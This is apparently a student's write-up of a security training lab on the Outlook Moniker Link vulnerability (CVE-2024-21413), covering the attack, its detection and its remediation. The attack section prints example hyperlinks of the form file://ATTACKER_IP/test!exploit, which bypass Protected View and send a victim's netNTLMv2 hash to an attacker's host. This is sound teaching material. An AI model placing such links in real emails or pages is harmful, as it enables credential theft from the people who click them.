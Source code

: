 Room Title: Moniker Link (CVE-2024-21413)
Difficulty: Easy
Time to Complete: 30 minutes
Skills Covered:

    Moniker Link (CVE-2024-21413)
    Detection
    Remediation
    
🏛️ Key Concepts and Lessons Learned
🔹 Moniker Link (CVE-2024-21413)

     By using the file:// Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (<a href="file://ATTACKER_IP/test">Click me</a>). 
     The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

    <p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>

    The vulnerability here exists by modifying our hyperlink to include the ! special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. 
    For example: <a href="file://ATTACKER_IP/test!exploit">Click me</a>.

    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    We, as attackers, can provide a Moniker Link of this nature for the attack. 
    Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

🔹 Detection

    A Yara rule has been created by Florian Roth to detect emails containing the file:\\ element in the Moniker Link.  

    Wireshark

    Additionally, the SMB request from the victim to the client can be seen in a packet capture with a truncated netNTLMv2 hash.

🔹 Remediation

    Microsoft has included patches to resolve this vulnerability in February’s “patch Tuesday” release. You can see a list of KB articles by Office build here. Updating Office through Windows Update or the Microsoft Update Catalog is strongly recommended.

    Additionally, in the meantime, it is a timely reminder to practice general - safe - cyber security practices. For example, reminding users to:

    Do not click random links (especially from unsolicited emails)
    Preview links before clicking them
    Forward suspicious emails to the respective department responsible for cyber security
    

🔍 Reflection

This room helped me to know some more about how a vulnerability work, how to do exploitations and also how a simple vulnerability can be exploit by simple attackers.
